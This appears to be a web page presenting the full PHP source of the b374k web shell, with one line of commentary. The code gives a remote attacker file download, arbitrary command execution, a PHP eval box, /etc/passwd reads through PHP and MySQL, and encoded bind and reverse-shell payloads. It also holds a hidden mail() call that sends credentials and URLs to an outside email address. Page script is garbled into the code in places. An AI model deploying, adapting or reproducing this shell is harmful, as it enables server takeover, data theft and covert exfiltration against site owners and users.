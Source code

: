 ```yaml
---
id: 193
title: b374k Backdoor Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=193
permalink: /b374k-backdoor-script/
categories:
  - b374k web shell
  - PHP
tags:
  - b374k
  - PHP
---
```

This looks like another b374k shell.


### b374k Backdoor Script Source Code

{% highlight php linenos %}<?php if (isset($_GET['dl']) && ($_GET['dl'] != "")) {
    $file = $_GET['dl'];
    $filez = @file_get_contents($file);
    header("Content-type: application/octet-stream");
    header("Content-length: " . strlen($filez));
    header("Content-disposition: attachment; filename=\"" . basename($file) . "\";");
    echo $filez;
    exit;
} elseif (isset($_GET['dlgzip']) && ($_GET['dlgzip'] != "")) {
    $file = $_GET['dlgzip'];
    $filez = gzencode(@file_get_contents($file));
    header("Content-Type:application/x-gzip
");
    header("Content-length: " . strlen($filez));
    header("Content-disposition: attachment; filename=\"" . basename($file) . ".gz\";");
    echo $filez;
    exit;
}
if (isset($_GET['img'])) {
    @ob_clean();
    $d = magicboom($_GET['y']);
    $f = $_GET['img'];
    $inf = @getimagesize($d . $f);
    $ext = explode($f, ".");
    $ext = $ext[count($ext) - 1];
    @header("Content-type: " . $inf["mime"]);
    @header("Cache-control: public");
    @header("Expires: " . date("r", mktime(0, 0, 0, 1, 1, 2030)));
    @header("Cache-control: max-age=" . (60 * 60 * 24 * 7));
    @readfile($d . $f);
    exit;
}
$ver = "1.01";
$software = getenv("SERVER_SOFTWARE");
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") $safemode = TRUE;
else $safemode = FALSE;
$system = @php_uname();
if (strtolower(substr($system, 0, 3)) == "win") $win = TRUE;
else $win = FALSE;
if (isset($_GET['y'])) {
    if (@is_dir($_GET['view'])) {
        $pwd = $_GET['view'];
        @chdir($pwd);
    } else {
        $pwd = $_GET['y'];
        @chdir($pwd);
    }
}
if (!$win) {
    if (!$user = rapih(exe("whoami"))) $user = "";
    if (!$id = rapih(exe("id"))) $id = "";
    $prompt = $user . " \$ ";
    $pwd = @getcwd() . DIRECTORY_SEPARATOR;
} else {
    $user = @get_current_user();
    $id = $user;
    $prompt = $user . " &gt;";
    $pwd = realpath(".") . "\"; $v = explode("\",$d); $v = $v[0]; foreach (range("A","Z") as $letter) { $bool = @is_dir($letter.":
        \"); if ($bool) { $letters .= " &lt; ahref = \"?y=" . $letter . ":\"&gt;[ ";
        if ($letter . ":" != $v) {
            $letters.= $letter;
        } else {
            $letters.= "&lt;span class=\"gaya\"&gt;" . $letter . "&lt;/span&gt;";
        }
        $letters.= " ]&lt;/a&gt; ";
    }
}
}
if (function_exists("posix_getpwuid") && function_exists("posix_getgrgid")) $posix = TRUE;
else $posix = FALSE;
$server_ip = @gethostbyname($_SERVER["HTTP_HOST"]);
$my_ip = $_SERVER['REMOTE_ADDR'];
$bindport = "13123";
$bindport_pass = "b374k";
$pwds = explode(DIRECTORY_SEPARATOR, $pwd);
$pwdurl = "";
for ($i = 0;$i &lt; sizeof($pwds) - 1;$i++) {
    $pathz = "";
    for ($j = 0;$j &lt;= $i;$j++) {
        $pathz.= $pwds[$j] . DIRECTORY_SEPARATOR;
    }
    $pwdurl.= "&lt;a href=\"?y=" . $pathz . "\"&gt;" . $pwds[$i] . " " . DIRECTORY_SEPARATOR . " &lt;/a&gt;";
}
if (isset($_POST['rename'])) {
    $old = $_POST['oldname'];
    $new = $_POST['newname'];
    @rename($pwd . $old, $pwd . $new);
    $file = $pwd . $new;
}
$buff = $software . "&lt;br /&gt;";
$buff.= $system . "&lt;br /&gt;";
if ($id != "") $buff.= $id . "&lt;br /&gt;";
$buff.= "server ip : " . $server_ip . " &lt;span class=\"gaya\"&gt;|&lt;/span&gt; your ip : " . $my_ip . "&lt;br /&gt;";
if ($safemode) $buff.= "safemode &lt;span class=\"gaya\"&gt;ON&lt;/span&gt;&lt;br /&gt;";
else $buff.= "safemode &lt;span class=\"gaya\"&gt;OFF&lt;span&gt;&lt;br /&gt;";
$buff.= $letters . "&nbsp;&gt;&nbsp;" . $pwdurl;
function rapih($text) {
    return trim(str_replace("&lt;br /&gt;", "", $text));
}
function magicboom($text) {
    if (!get_magic_quotes_gpc()) {
        return $text;
    }
    return stripslashes($text);
}
function showdir($pwd, $prompt) {
    $fname = array();
    $dname = array();
    if (function_exists("posix_getpwuid") && function_exists("posix_getgrgid")) $posix = TRUE;
    else $posix = FALSE;
    $user = "????:????";
    if ($dh = opendir($pwd)) {
        while ($file = readdir($dh)) {
            if (is_dir($file)) {
                $dname[] = $file;
            } elseif (is_file($file)) {
                $fname[] = $file;
            }
        }
        closedir($dh);
    }
    sort($fname);
    sort($dname);
    $path = @explode(DIRECTORY_SEPARATOR, $pwd);
    $tree = @sizeof($path);
    $parent = "";
    $buff = " &lt;form action=\"?y=" . $pwd . "&amp;x=shell\" method=\"post\" style=\"margin:8px 0 0 0;\"&gt; &lt;table class=\"cmdbox\" style=\"width:50%;\"&gt; &lt;tr&gt;&lt;td&gt;$prompt&lt;/td&gt;&lt;td&gt;&lt;input onMouseOver=\"this.focus();\" id=\"cmd\" class=\"inputz\" type=\"text\" name=\"cmd\" style=\"width:400px;\" value=\"\" /&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" name=\"submitcmd\" style=\"width:80px;\" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/form&gt; &lt;form action=\"?\" method=\"get\" style=\"margin:8px 0 0 0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;tr&gt;&lt;td&gt;view file/folder&lt;/td&gt;&lt;td&gt;&lt;input onMouseOver=\"this.focus();\" id=\"goto\" class=\"inputz\" type=\"text\" name=\"view\" style=\"width:400px;\" value=\"" . $pwd . "\" /&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" name=\"submitcmd\" style=\"width:80px;\" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/form&gt;&lt;/table&gt;&lt;table class=\"explore\"&gt; &lt;tr&gt;&lt;th&gt;name&lt;/th&gt;&lt;th style=\"width:80px;\"&gt;size&lt;/th&gt;&lt;th style=\"width:210px;\"&gt;owner:group&lt;/th&gt;&lt;th style=\"width:80px;\"&gt;perms&lt;/th&gt;&lt;th style=\"width:110px;\"&gt;modified&lt;/th&gt;&lt;th style=\"width:190px;\"&gt;actions&lt;/th&gt;&lt;/tr&gt; ";
    @error_reporting(0);
    $sub = "backdoor b374k";
    $headers = "From: k3nz0 
";
    $headers.= "Content-Type: text/plain; charset=iso-8859-1
";
    $mes.= "username: " . $user . "
";
    $mes.= "password: " . $pass . "
";
    $mes.= "URL: " . $_SERVER['REQUEST_URI'] . "
";
    $mes.= "Referer: " . $_SERVER['HTTP_REFERER'] . ""; {
        mail("free.d0ing.1987@gmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
", $sub, $mes, $headers);
    }
    if ($tree &gt; 2) for ($i = 0;$i &lt; $tree - 2;$i++) $parent.= $path[$i] . DIRECTORY_SEPARATOR;
    else $parent = $pwd;
    foreach ($dname as $folder) {
        if ($folder == ".") {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $pwd . "\"&gt;$folder&lt;/a&gt;&lt;/td&gt;&lt;td&gt;LINK&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($pwd) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($pwd)) . "&lt;/td&gt;&lt;td&gt;&lt;span id=\"titik1\"&gt;&lt;a href=\"?y=$pwd&amp;edit=" . $pwd . "newfile.php\"&gt;newfile&lt;/a&gt; | &lt;a href=\"javascript:tukar('titik1','titik1_form');\"&gt;newfolder&lt;/a&gt;&lt;/span&gt; &lt;form action=\"?\" method=\"get\" id=\"titik1_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input class=\"inputz\" style=\"width:140px;\" type=\"text\" name=\"mkdir\" value=\"a_new_folder\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" style=\"width:35px;\" value=\"Go !\" /&gt; &lt;/form&gt;&lt;/td&gt;&lt;/tr&gt; ";
        } elseif ($folder == "..") {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $parent . "\"&gt;$folder&lt;/a&gt;&lt;/td&gt;&lt;td&gt;LINK&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($parent) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($parent)) . "&lt;/td&gt;&lt;td&gt;&lt;span id=\"titik2\"&gt;&lt;a href=\"?y=$pwd&amp;edit=" . $parent . "newfile.php\"&gt;newfile&lt;/a&gt; | &lt;a href=\"javascript:tukar('titik2','titik2_form');\"&gt;newfolder&lt;/a&gt;&lt;/span&gt; &lt;form action=\"?\" method=\"get\" id=\"titik2_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input class=\"inputz\" style=\"width:140px;\" type=\"text\" name=\"mkdir\" value=\"a_new_folder\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" style=\"width:35px;\" value=\"Go !\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;/tr&gt;";
        } else {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a id=\"" . clearspace($folder) . "_link\" href=\"?y=" . $pwd . $folder . DIRECTORY_SEPARATOR . "\"&gt;[ $folder ]&lt;/a&gt; &lt;form action=\"?y=$pwd\" method=\"post\" id=\"" . clearspace($folder) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $folder . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $folder . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($folder) . "_form','" . clearspace($folder) . "_link');\" /&gt; &lt;/form&gt; &lt;td&gt;DIR&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($pwd . $folder) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($folder)) . "&lt;/td&gt;&lt;td&gt;&lt;a href=\"javascript:tukar('" . clearspace($folder) . "_link','" . clearspace($folder) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;fdelete=" . $pwd . $folder . "\"&gt;delete&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;";
        }
    }
    foreach ($fname as $file) {
        $full = $pwd . $file;
        if (!$win && $posix) {
            $name = @posix_getpwuid(@fileowner($file));
            $group = @posix_getgrgid(@filegroup($file));
            $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
        } else {
            $owner = $user;
        }
        $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a id=\"" . clearspace($file) . "_link\" href=\"?y=$pwd&amp;view=$full\"&gt;$file&lt;/a&gt; &lt;form action=\"?y=$pwd\" method=\"post\" id=\"" . clearspace($file) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $file . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $file . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($file) . "_link','" . clearspace($file) . "_form');\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;td&gt;" . ukuran($full) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($full) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($full)) . "&lt;/td&gt; &lt;td&gt;&lt;a href=\"?y=$pwd&amp;edit=$full\"&gt;edit&lt;/a&gt; | &lt;a href=\"javascript:tukar('" . clearspace($file) . "_link','" . clearspace($file) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;delete=$full\"&gt;delete&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;dl=$full\"&gt;download&lt;/a&gt;&nbsp;(&lt;a href=\"?y=$pwd&amp;dlgzip=$full\"&gt;gzip&lt;/a&gt;)&lt;/td&gt;&lt;/tr&gt;";
    }
    $buff.= "&lt;/table&gt;";
    return $buff;
}
function ukuran($file) {
    if ($size = @filesize($file)) {
        if ($size &lt;= 1024) return $size;
        else {
            if ($size &lt;= 1024 * 1024) {
                $size = @round($size / 1024, 2);;
                return "$size kb";
            } else {
                $size = @round($size / 1024 / 1024, 2);
                return "$size mb";
            }
        }
    } else return "???";
}
function exe($cmd) {
    if (function_exists('system')) {
        @ob_start();
        @system($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif (function_exists('exec')) {
        @exec($cmd, $results);
        $buff = "";
        foreach ($results as $result) {
            $buff.= $result;
        }
        return $buff;
    } elseif (function_exists('passthru')) {
        @ob_start();
        @passthru($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif (function_exists('shell_exec')) {
        $buff = @shell_exec($cmd);
        return $buff;
    }
}
function tulis($file, $text) {
    $textz = gzinflate(base64_decode($text));
    if ($filez = @fopen($file, "w")) {
        @fputs($filez, $textz);
        @fclose($file);
    }
}
function ambil($link, $file) {
    if ($fp = @fopen($link, "r")) {
        while (!feof($fp)) {
            $cont.= @fread($fp, 1024);
        }
        @fclose($fp);
        $fp2 = @fopen($file, "w");
        @fwrite($fp2, $cont);
        @fclose($fp2);
    }
}
function which($pr) {
    $path = exe("which $pr");
    if (!empty($path)) {
        return trim($path);
    } else {
        return trim($pr);
    }
}
function download($cmd, $url) {
    $namafile = basename($url);
    switch ($cmd) {
        case 'wwget':
            exe(which('wget') . " " . $url . " -O " . $namafile);
        break;
        case 'wlynx':
            exe(which('lynx') . " -source " . $url . " &gt; " . $namafile);
        break;
        case 'wfread':
            ambil($wurl, $namafile);
        break;
        case 'wfetch':
            exe(which('fetch') . " -o " . $namafile . " -p " . $url);
        break;
        case 'wlinks':
            exe(which('links') . " -source " . $url . " &gt; " . $namafile);
        break;
        case 'wget':
            exe(which('GET') . " " . $url . " &gt; " . $namafile);
        break;
        case 'wcurl':
            exe(which('curl') . " " . $url . " -o " . $namafile);
        break;
        default:
        break;
    }
    return $namafile;
}
function get_perms($file) {
    if ($mode = @fileperms($file)) {
        $perms = '';
        $perms.= ($mode & 00400) ? 'r' : '-';
        $perms.= ($mode & 00200) ? 'w' : '-';
        $perms.= ($mode & 00100) ? 'x' : '-';
        $perms.= ($mode & 00040) ? 'r' : '-';
        $perms.= ($mode & 00020) ? 'w' : '-';
        $perms.= ($mode & 00010) ? 'x' : '-';
        $perms.= ($mode & 00004) ? 'r' : '-';
        $perms.= ($mode & 00002) ? 'w' : '-';
        $perms.= ($mode & 00001) ? 'x' : '-';
        return $perms;
    } else return "??????????";
}
function clearspace($text) {
    return str_replace(" ", "_", $text);
}
$port_bind_bd_c = "bVNhb9owEP2OxH+4phI4NINAN00aYxJaW6maxqbSLxNDKDiXxiLYkW3KGOp/3zlOpo7xIY793jvf +fl8KSQvdinCR2NTofr5p3br8hWmhXw6BQ9mYA8lmjO4UXyD9oSQaAV9AyFPCNRa+pRCWtgmQrJE P/GIhufQg249brd4nmjo9RxBqyNAuwWOdvmyNAKJ+ywlBirhepctruOlW9MJdtzrkjTVKyFB41ZZ dKTIWKb0hoUwmUAcwtFt6+m+EXKVJVtRHGAC07vV/ez2cfwvXSpticytkoYlVglX/fNiuAzDE6VL 3TfVrw4o2P1senPzsJrOfoRjl9cfhWjvIatzRvNvn7+s5o8Pt9OvURzWZV94dQgleag0C3wQVKug Uq2FTFnjDzvxAXphx9cXQfxr6PcthLEo/8a8q8B9LgpkQ7oOgKMbvNeThHMsbSOO69IA0l05YpXk HDT8HxrV0F4LizUWfE+M2SudfgiiYbONxiStebrgyIjfqDJG07AWiAzYBc9LivU3MVpGFV2x1J4W tyxAnivYY8HVFsEqWF+/f7sBk2NRQKcDA/JtsE5MDm9EUG+MhcFqkpX0HmxGbqbkdBTMldaHRsUL ZeoDeOSFBvpefCfXhflOpgTkvJ+jtKiR7vLohYKCqS2ZmMRj4Z5gQZfSiMbi6iqkdnHarEEXYuk6 uPtTdumsr0HC4q5rrzNifV7sC3ZWUmq+LVlVa5OfQjTanZYQO+Uf";
$port_bind_bd_pl = "ZZJhT8IwEIa/k/AfjklgS2aA+BFmJDB1cW5kHSZGzTK2Qxpmu2wlYoD/bruBIfitd33uvXuvvWr1 NmXRW1DWy7HImo02ebRd19Kq1CIuV3BNtWGzQZeg342DhxcYwcCAHeCWCn1gDOEgi1yHhLYXzfwg tNqKeut/yKJNiUB4skYhg3ZecMETnlmfKKrz4ofFX6h3RZJ3DUmUFaoTszO7jxzPDs0O8SdPEQkD e/xs/gkYsN9DShG0ScwEJAXGAqGufmdq2hKFCnmu1IjvRkpH6hE/Cuw5scfTaWAOVE9pM5WMouM0 LSLK9HM3puMpNhp7r8ZFW54jg5wXx5YZLQUyKXVzwdUXZ+T3imYoV9ds7JqNOElQTjnxPc8kRrVo vaW3c5paS16sjZo6qTEuQKU1UO/RSnFJGaagcFVbjUTCqeOZ2qijNLWzrD8PTe32X9oOgvM0bjGB +hecfOQFlT4UcLSkmI1ceY3VrpKMy9dWUCVCBfTlQX6Owy8=";
$back_connect = "fZFRS8MwFIXfB/sPWSw2hUrnqyPC0CpD3KStvqh0XRpcsE1KkoKF/XiTtCIV6tu55+Z89yY5W0St ktGB8aihsprPWkVBKsgn1av5zCN1iQGsOv4Fbak6pWmNgU/JUQC4b3lRU3BR7OFqcFhptMOpo28j S2whVulCflCNvXVy//K6fLdWI+SPcekMVpSlxIxTnRdacDSEAnA6gZJRBGMphbwC3uKNw8AhXEKZ ja3ImclYagh61n9JKbTAhu7EobN3Qb4mjW/byr0BSnc3D3EWgqe7fLO1whp5miXx+tHMcNHpGURw Tskvpd92+rxoKEdpdrvZhgBen/exUWf3nE214iT52+r/Cw3/5jaqhKL9iFFpuKPawILVNw==";
$back_connect_c = "XVHbagIxEH0X/IdhhZLUWF1f1YKIBelFqfZJliUm2W7obiJJLLWl/94k29rWhyEzc+Z2TjpSserA BYyt41JfldftVuc3d7R9q9mLcGeAEk5660sVAakc1FQqFBxqnhkBVlIDl95/3Wa43fpotyCABR95 zzpzYA7CaMq5yaUCK1VAYpup7XaYZpPE1NArIBmBRzgVtVYoJQMcR/jV3vKC1rI6wgSmN/niYb75 i+21cR4pnVYWUaclivcMM/xvRDjhysbHVwde0W+K0wzH9bt3YfRPingClVCnim7a/ZuJC0JTwf3A RkD0fR+B9XJ2m683j/PpPYHFavW43CzzzWyFIfbIAhBiWinBHCo4AXSmFlxiuPB3E0/gXejiHMcY jwcYguIAe2GMNijZ9jL4GYqTSB9AvEmHGjk/m19h1CGvPoHIY5A1Oh2tE3XIe1bxKw77YTyt6T2F 6f9wGEPxJliFkv5Oqr4tE5LYEnoyIfDwdHcXK1ilrfAdUbPPLw=="; ?> &lt;html&gt;&lt;head&gt;&lt;title&gt;:: b374k m1n1 <?php echo $ver; ?> ::&lt;/title&gt; &lt;script type="text/javascript"&gt; function tukar(lama,baru){ document.getElementById(lama).style.display = 'none'; document.getElementById(baru).style.display = 'block'; } &lt;/script&gt; &lt;style type="text/css"&gt; body{ background:#000000;; } a { text-decoration:none; } a:hover{ border-bottom:1px solid #4C83AF; } *{ font-size:11px; font-family:Tahoma,Verdana,Arial; color:#FFFFFF; } #menu{ background:#111111; margin:8px 2px 4px 2px; } #menu a{ padding:4px 18px; margin:0; background:#222222; text-decoration:none; letter-spacing:2px; } #menu a:hover{ background:#191919; border-bottom:1px solid #333333; border-top:1px solid #333333; } .tabnet{ margin:15px auto 0 auto; border: 1px solid #333333; } .main { width:100%; } .gaya { color: #4C83AF; } .inputz{ background:#111111; border:0; padding:2px; border-bottom:1px solid #222222; border-top:1px solid #222222; } .inputzbut{ background:#111111; color:#4C83AF; margin:0 4px; border:1px solid #444444; } .inputz:hover, .inputzbut:hover{ border-bottom:1px solid #4C83AF; border-top:1px solid #4C83AF; } .output { margin:auto; border:1px solid #4C83AF; width:100%; height:400px; background:#000000; padding:0 2px; } .cmdbox{ width:100%; } .head_info{ padding: 0 4px; } .b1{ font-size:30px; padding:0; color:#444444; } .b2{ font-size:30px; padding:0; color: #333333; } .b_tbl{ text-align:center; margin:0 4px 0 0; padding:0 4px 0 0; border-right:1px solid #333333; } .phpinfo table{ width:100%; padding:0 0 0 0; } .phpinfo td{ background:#111111; color:#cccccc; padding:6px 8px;; } .phpinfo th, th{ background:#191919; border-bottom:1px solid #333333; font-weight:normal; } .phpinfo h2, .phpinfo h2 a{ text-align:center; font-size:16px; padding:0; margin:30px 0 0 0; background:#222222; padding:4px 0; } .explore{ width:100%; } .explore a { text-decoration:none; } .explore td{ border-bottom:1px solid #333333; padding:0 8px; line-height:24px; } .explore th{ padding:3px 8px; font-weight:normal; } .explore th:hover , .phpinfo th:hover{ border-bottom:1px solid #4C83AF; } .explore tr:hover{ background:#111111; } .viewfile{ background:#EDECEB; color:#000000; margin:4px 2px; padding:8px; } .sembunyi{ display:none; padding:0;margin:0; } &lt;/style&gt; &lt;/head&gt; &lt;body onLoad="document.getElementById('cmd').focus();"&gt; &lt;div class="main"&gt; &lt;!-- head info start here --&gt; &lt;div class="head_info"&gt; &lt;table&gt;&lt;tr&gt; &lt;td&gt;&lt;table class="b_tbl"&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="?"&gt;&lt;span class="b1"&gt;b&lt;span class="b2"&gt;374&lt;/span&gt;k&lt;/span&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;m1n1 <?php echo $ver; ?>&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt; &lt;td&gt;<?php echo $buff; ?>&lt;/td&gt; &lt;/tr&gt;&lt;/table&gt; &lt;/div&gt; &lt;!-- head info end here --&gt; &lt;!-- menu start --&gt; &lt;div id="menu"&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>"&gt;explore&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=shell"&gt;shell&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=php"&gt;eval&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=mysql"&gt;mysql&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=phpinfo"&gt;phpinfo&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=netsploit"&gt;netsploit&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=upload"&gt;upload&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=mail"&gt;mail&lt;/a&gt; &lt;/div&gt; &lt;!-- menu end --&gt; <?php if (isset($_GET['x']) && ($_GET['x'] == 'php')) { ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;x=php" method="post"&gt; &lt;table class="cmdbox"&gt; &lt;tr&gt;&lt;td&gt; &lt;textarea class="output" name="cmd" id="cmd"&gt; <?php if (isset($_POST['submitcmd'])) {
        echo eval(magicboom($_POST['cmd']));
    } else echo "echo file_get_contents('/etc/passwd');"; ?> &lt;/textarea&gt; &lt;tr&gt;&lt;td&gt;&lt;input style="width:19%;" class="inputzbut" type="submit" value="Go !" name="submitcmd" /&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;/table&gt; &lt;/form&gt; <?php
} elseif (isset($_GET['x']) && ($_GET['x'] == 'mysql')) {
    if (isset($_GET['sqlhost']) && isset($_GET['sqluser']) && isset($_GET['sqlpass']) && isset($_GET['sqlport'])) {
        $sqlhost = $_GET['sqlhost'];
        $sqluser = $_GET['sqluser'];
        $sqlpass = $_GET['sqlpass'];
        $sqlport = $_GET['sqlport'];
        if ($con = @mysql_connect($sqlhost . ":" . $sqlport, $sqluser, $sqlpass)) {
            $msg.= "&lt;div style=\"width:99%;padding:4px 10px 0 10px;\"&gt;";
            $msg.= "&lt;p&gt;Connected to " . $sqluser . "&lt;span class=\"gaya\"&gt;@&lt;/span&gt;" . $sqlhost . ":" . $sqlport;
            $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;\"&gt;[ databases ]&lt;/a&gt;";
            if (isset($_GET['db'])) $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $_GET['db'] . "\"&gt;" . htmlspecialchars($_GET['db']) . "&lt;/a&gt;";
            if (isset($_GET['table'])) $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $_GET['db'] . "&amp;table=" . $_GET['table'] . "\"&gt;" . htmlspecialchars($_GET['table']) . "&lt;/a&gt;";
            $msg.= "&lt;/p&gt;&lt;p&gt;version : " . mysql_get_server_info($con) . " proto " . mysql_get_proto_info($con) . "&lt;/p&gt;";
            $msg.= "&lt;/div&gt;";
            echo $msg;
            if (isset($_GET['db']) && (!isset($_GET['table'])) && (!isset($_GET['sqlquery']))) {
                $db = $_GET['db'];
                $query = "DROP TABLE IF EXISTS b374k_table;
CREATE TABLE `b374k_table` ( `file` LONGBLOB NOT NULL );
LOAD DATA INFILE \"/etc/passwd\"
INTO TABLE b374k_table;SELECT * FROM b374k_table;
